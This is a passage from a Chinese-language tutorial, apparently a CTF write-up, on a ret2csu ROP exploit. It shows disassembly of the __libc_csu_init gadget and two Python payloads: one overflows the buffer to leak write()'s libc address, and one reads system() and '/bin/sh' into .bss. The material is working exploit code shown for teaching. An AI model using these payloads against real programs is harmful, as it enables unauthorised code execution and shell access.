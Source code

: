 ```
........
  4005f0:   4c 89 fa                mov    %r15,%rdx
  4005f3:   4c 89 f6                mov    %r14,%rsi
  4005f6:   44 89 ef                mov    %r13d,%edi
  4005f9:   41 ff 14 dc             callq  *(%r12,%rbx,8)
  4005fd:   48 83 c3 01             add    $0x1,%rbx
  400601:   48 39 eb                cmp    %rbp,%rbx
  400604:   75 ea                   jne    4005f0 <__libc_csu_init+0x50>
  400606:   48 8b 5c 24 08          mov    0x8(%rsp),%rbx
  40060b:   48 8b 6c 24 10          mov    0x10(%rsp),%rbp
  400610:   4c 8b 64 24 18          mov    0x18(%rsp),%r12
  400615:   4c 8b 6c 24 20          mov    0x20(%rsp),%r13
  40061a:   4c 8b 74 24 28          mov    0x28(%rsp),%r14
  40061f:   4c 8b 7c 24 30          mov    0x30(%rsp),%r15
  400624:   48 83 c4 38             add    $0x38,%rsp
  400628:   c3                      retq  
```

我们先构造`payload1`，利用`write()`输出`write在内存中的地址`。注意我们的gadget是call qword ptr [r12+rbx*8]，所以我们应该使用`write.got`的地址`而不是write.plt`的地址。并且为了返回到原程序中，重复利用buffer overflow的漏洞，我们需要`继续覆盖栈上的数据`，直到把返回值覆盖成目标函数的`main函数`为止。这里说一下`payload1 += "\x00"\*56`这句话，当时纠结了很久，思路不是很清晰，没看懂，一直在调试看栈上的这七个数据存的到底是什么，最后发现根本不用关心它存的是什么，不过这些值会存到rbx、rbp、r12....寄存器中，这里覆盖这些值只是为了让程序返回的时候返回的是`main`的地址，要想覆盖那个地址就要覆盖前面栈上的数据。这里可能说的啰嗦了，大佬轻喷，我是小白。

``` python
#rdi=edi=r15, rsi=r14, rdx=r13
#write(rdi=1,rsi=write_got,rdx=8)
payload1 = "\x00"*136
                #pop        junk      rbx      rbp         r12           r13         r14           r15          ret
payload1 += p64(0x400616) + p64(0) + p64(0) + p64(1) + p64(write_got) + p64(8) + p64(write_got) + p64(1) + p64(0x400600)
payload1 += "\x00"*56  #0x38
payload1 += p64(main_addr)
```

这里看一下覆盖完栈数据后`栈上数据的分布`：

<div align="left">
    ![覆盖数据后栈中数据分布图](/resources/2018/2018-05-11-01.png)
</div>

当我们exp在收到`write()`在内存中的地址后，就可以计算出`system()`在`内存中的地址`了。接着我们构造`payload2`，利用`read()`将`system()的地址`以及`“/bin/sh”`读入到`.bss段`内存中。

``` python
#rdi=edi=r15, rsi=r14, rdx=r13
#read(rdi=0,rsi=bss_addr,rdx=16)
payload2 = "\x00"*136
                #pop        junk      rbx      rbp         r12           r13         r14           r15          ret
payload2 += p64(0x400616) + p64(0) + p64(0) + p64(1) + p64(read_got) + p64(16) + p64(bss_addr) + p64(0) + p64(0x400600)
payload2 += "\x00"*56
payload2 += p64(main_addr)
```
